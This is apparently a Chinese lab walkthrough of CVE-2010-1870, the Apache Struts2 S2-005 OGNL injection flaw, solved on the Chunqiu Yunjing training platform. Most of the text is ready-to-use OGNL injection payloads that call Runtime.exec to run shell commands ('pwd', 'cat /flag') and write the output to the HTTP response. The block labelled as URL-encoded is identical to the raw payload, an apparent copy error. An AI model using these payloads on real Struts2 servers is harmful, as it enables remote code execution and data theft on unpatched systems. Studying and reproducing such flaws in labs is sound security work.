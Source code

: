 ```yaml
---
title: "CVE-2010-1870"
date: 2024-07-25
tags: ["春秋云镜","CVE","Struts2","RCE"]
featured_image: "https://static.guyu.pro/yunjing.ichunqiu.com/CVE.webp"
draft: false
---
```


<https://nvd.nist.gov/vuln/detail/CVE-2010-1870>

<https://www.exploit-db.com/exploits/14360>

<https://cwiki.apache.org/confluence/display/WW/S2-005>

S2-005

## 演示

环境: [春秋云镜 免费空间>CVE-2010-1870](https://yunjing.ichunqiu.com/cve/detail/953)

### 1.验证

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/1.webp)

```java
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'pwd\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

url编码后

```java
('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'pwd\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/2.webp)

### 2.利用

```java
('%5C43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('%5C43context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5C75false')(b))&('%5C43c')(('%5C43_memberAccess.excludeProperties%5C75@java.util.Collections@EMPTY_SET')(c))&(g)(('%5C43mycmd%5C75%5C'cat%20/flag%5C'')(d))&(h)(('%5C43myret%5C75@java.lang.Runtime@getRuntime().exec(%5C43mycmd)')(d))&(i)(('%5C43mydat%5C75new%5C40java.io.DataInputStream(%5C43myret.getInputStream())')(d))&(j)(('%5C43myres%5C75new%5C40byte%5B51020%5D')(d))&(k)(('%5C43mydat.readFully(%5C43myres)')(d))&(l)(('%5C43mystr%5C75new%5C40java.lang.String(%5C43myres)')(d))&(m)(('%5C43myout%5C75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('%5C43myout.getWriter().println(%5C43mystr)')(d))
```

![](https://static.guyu.pro/yunjing.ichunqiu.com/953/3.webp)
